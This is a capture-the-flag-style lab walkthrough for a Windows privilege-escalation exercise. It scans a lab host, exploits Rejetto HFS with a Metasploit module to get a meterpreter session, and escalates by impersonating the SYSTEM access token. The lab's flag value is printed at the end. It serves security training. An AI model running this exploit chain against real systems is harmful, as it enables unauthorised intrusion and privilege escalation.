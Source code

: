 # 🔬Access Token

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> * Target IP: `10.0.28.102`
> * **Access Token impersonation**

### Enumeration

```bash
root@attackdefense:~# nmap 10.0.28.102
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-06 11:22 IST
Nmap scan report for 10.0.28.102
Host is up (0.0018s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```

* Determine the version information of the web server on port `80`

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Without using `nmap`, the `http` server version can be checked in a browser by opening the link

* `http://10.0.28.102/`

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
msfconsole -q
msf6 > search rejetto
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > show options
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.28.102
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Access is denied because current user `LOCAL SERVICE` don't have access to an privileges user account
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

#### **Access Token Impersonation**

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Listing tokens with this account, there can be additional available tokens

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
* Get the flag of the lab:

```bash
cd C:\\Users\\Administrator\\Desktop\\
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: x28c832a39730b7d46d6c38f1ea18e12
{% endhint %}

